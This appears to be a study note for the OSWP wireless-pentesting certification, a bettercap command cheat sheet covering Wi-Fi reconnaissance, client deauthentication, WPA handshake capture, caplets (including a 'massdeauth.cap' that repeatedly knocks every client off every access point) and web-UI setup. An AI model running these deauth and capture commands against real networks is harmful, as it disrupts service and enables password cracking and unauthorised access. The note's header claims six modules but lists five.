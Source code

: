 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/9-bettercap/"}
---
```


----------------------
	Swiss Army Knife of Network Hacking

## Getting started
Start bettercap:
```
sudo bettercap -iface wlan0
```
Clear screen:
	clear
Exit bettercap:
	exit
--------------
## Modules vs. commands
- Six modules:
	- Bluetooth LE
	- HID on 2.4GHz
	- Ethernet
	- Wi-Fi
	- Ticker
-------------
## Commands:
### Scanning & discovery
Start/stop scanning for APs, clients & handshakes:
```
wifi.recon <on/off>
```
Scan for specific channels:
```
wifi.recon.channel 6,11
```
Clear specified channels:
```
wifi.recon.channel clear
```
Enumerate connected clients:
```
wifi.recon c6:2d:56:2a:53:f8
```
Exit client view:
```
wifi.recon clear
```
Display discovered wireless stations:
```
wifi.show
```
Clear discovered APs:
```
wifi.clear
```
Change how long for client to be marked as disconnected (default 300/five min):
```
set wifi.sta.ttl 100
```
Enable/disable 802.11 checksum validations:
```
set wifi.skip-broken <true/false>
```
### Filtering & sorting
Sort discovered stations:
```
set wifi.show.sort <column-name> <asc/desc>
```
Filter discovered stations:
```
set wifi.show.filter "WPA2"
```
Clear filter:
```
set wifi.show.filter ""
```
Enumerate clients connected to AP:
```
wifi.recon c6:2d:56:2a:53:f8
wifi.show
```
Filter discovered stations for signal strength (default -200):
```
set wifi.rssi.min -49
```
Limit number of APs displayed (clear with 0)
```
set wifi.show.limit 10
```
Show manufacturers:
```
set wifi.show.manufacturer true
```
### Tickers
Enable/disable ticker:
```
ticker <on/off>
```
Set ticker commands:
```
set ticker.commands "clear; wifi.show"
```
Run ticker on start:
```
sudo bettercap -iface wlan0 -eval "set ticker.commands 'clear; wifi.show'; wifi.recon on; ticker on"
```
Set ticker time to execution (default 1 sec):
```
set ticker.period 2
```
### Deauth & handshakes
Deauthenticating AP:
```
wifi.deauth c6:2d:56:2a:53:f8
```
Deauthenticating client:
```
wifi.deauth ac:22:0b:28:fd:22
```
Getting handshake:
```
get wifi.handshakes.file
```
Setting handshake save file:
```
set wifi.handshakes.file "/home/kali/handshakes/"
set wifi.handshakes.aggregate false
```
Adding devices to skip-list:
```
set wifi.deauth.skip ac:22:0b:28:fd:22,c6:2d:56:2a:53:f8
```
Skipping previously captured handshakes:
```
set wifi.deauth.acquired <true/false>
```
Deauthenticating open networks:
```
set wifi.dauth.open <true/false>
```
Hiding deauth-messages from terminal:
```
set wifi.deauth.silent <true/false>
```

------------------

## Caplets
Files that allows to run a series of commands in bettercap using .cap extension

Caplet directory: 
 `/usr/share/bettercap/caplets/`

Example caplet "massdeauth.cap":
```
set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}

# every 10 seconds deauth every client from every ap
set ticker.period 10
set ticker.commands clear; wifi.deauth ff:ff:ff:ff:ff:ff

# uncomment to only hop on these channels:
# wifi.recon.channel 1,2,3

wifi.recon on
ticker on
events.clear
clear
```

Example caplet "deauth_corp.cap":
```
set $ {br}{fw}{net.received.human} - {env.iface.name}{reset} » {reset}

set ticker.period 10
set ticker.commands clear; wifi.show; events.show; wifi.deauth c6:2d:56:2a:53:f8

events.ignore wifi.ap.new
events.ignore wifi.client.probe
events.ignore wifi.client.new

wifi.recon on
ticker on
events.clear
clear
```

Starting caplet:
```
sudo bettercap -iface wlan0 -caplet <caplet-file>
```

Starting caplet from session:
```
include <caplet-file>
```

---------

## Bettercap Web Interface

Set up server firewall rules:
```
sudo nft add table inet filter
sudo nft add chain inet filter INPUT { type filter hook input priority 0\; policy drop\; }
sudo nft add rule inet filter INPUT ip saddr <your-ip> tcp dport 443 accept
sudo nft add rule inet filter INPUT ip saddr <your-ip> tcp dport 8083 accept
```

Configure username and password:
```
sudo nano /usr/share/bettercap/caplets/https-ui.cap
#Edit lines 16 and 17
```

Start web UI:
```
sudo bettercap -iface wlan0 -caplet https-ui
```

Access:
- Accept self-signed certs on main page and :8083/api